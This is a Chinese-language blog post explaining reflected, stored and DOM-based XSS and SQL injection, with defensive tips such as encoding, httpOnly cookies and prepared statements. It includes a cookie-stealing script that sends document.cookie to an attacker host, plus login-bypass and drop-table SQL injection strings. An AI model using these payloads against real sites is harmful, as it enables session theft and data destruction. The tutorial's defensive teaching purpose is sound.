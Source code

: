 ```yaml
---
title: Xss
date: 2021-11-25 09:12:45
tags:
  - Xss
categories:
  - [Xss]
cover: 'https://img1.baidu.com/it/u=783472426,2588144806&fm=26&fmt=auto'

---
```


# 



## XSS攻击

> 参考地址：https://www.cnblogs.com/tugenhua0707/p/10909284.html



### 什么是XSS

**XSS（Cross Site Scripting）**又叫**跨站脚本攻击**，XSS攻击通常指的是通过利用开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。

攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。



### XSS攻击的类型
常见的 XSS 攻击有三种：反射型XSS攻击、DOM-based 型XXS攻击以及存储型XSS攻击。
#### 1.反射型XSS攻击
反射型 XSS 一般是攻击者通过特定手法（如电子邮件），**诱使用户去访问一个包含恶意代码的 URL**，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。反射型XSS通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。
#### 2.存储型XSS攻击
也叫持久型XSS，**主要将XSS代码提交存储在服务器端（数据库，内存，文件系统等）**，下次请求目标页面时不用再提交XSS代码。当目标用户访问该页面获取数据时，XSS代码会从服务器解析之后加载出来，返回到浏览器做正常的HTML和JS解析执行，XSS攻击就发生了。存储型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

例如：比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

> 防范手段：
>
> 1. 后端需要对提交的数据进行过滤。
> 2. 前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。





#### 3.DOM-based 型XSS攻击
基于 DOM 的 XSS 攻击是指**通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击**。DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞。



#### 4.SQL注入

SQL注入是通过客户端的输入把SQL命令注入到一个应用的数据库中，从而执行恶意的SQL语句。
什么意思呢？我们来打个比方：我们有一个登录框，需要输入用户名和密码对吧，然后我们的密码输入 'or '123' = '123 这样的。
我们在查询用户名和密码是否正确的时候，本来执行的sql语句是：select * from user where username = '' and password = ''. 这样的sql语句，现在我们输入密码是如上这样的，然后我们会通过参数进行拼接，拼接后的sql语句就是：
select * from user where username = '' and password = ' ' or '123' = '123 '; 这样的了，那么会有一个or语句，只要这两个有一个是正确的话，就条件成立，因此 123 = 123 是成立的。因此验证就会被跳过。这只是一个简单的列子，比如还有密码比如是这样的：'; drop table user;, 这样的话，那么sql命令就变成了：
select * from user where username = '' and password = ''; drop table user;' , 那么这个时候我们会把user表直接删除了。

sql被攻击的原因是：**sql语句伪造参数，然后对参数进行拼接后形成xss攻击的sql语句。最后会导致数据库被攻击了。**



>防范的方法：
>
>1. 我们可以使用预编译语句(PreparedStatement，这样的话即使我们使用sql语句伪造成参数，到了服务端的时候，这个伪造sql语句的参数也只是简单的字符，并不能起到攻击的作用。
>2. 数据库中密码不应明文存储的，可以对密码使用md5进行加密，为了加大破解成本，所以可以采用加盐的方式。



## 防御XSS攻击

1. 对输入内容的特定字符进行编码，例如表示 html标记的 < > 等符号。
2. 对重要的 cookie设置 httpOnly, 防止客户端通过document.cookie读取 cookie，此 HTTP头由服务端设置。
3. 将不可信的值输出 URL参数之前，进行 URLEncode操作，而对于从 URL参数中获取值一定要进行格式检测（比如你需要的时URL，就判读是否满足URL格式）。
4. 不要使用 Eval来解析并运行不确定的数据或代码，对于 JSON解析请使用 JSON.parse() 方法。
5. 后端接口也应该要做到关键字符过滤的问题。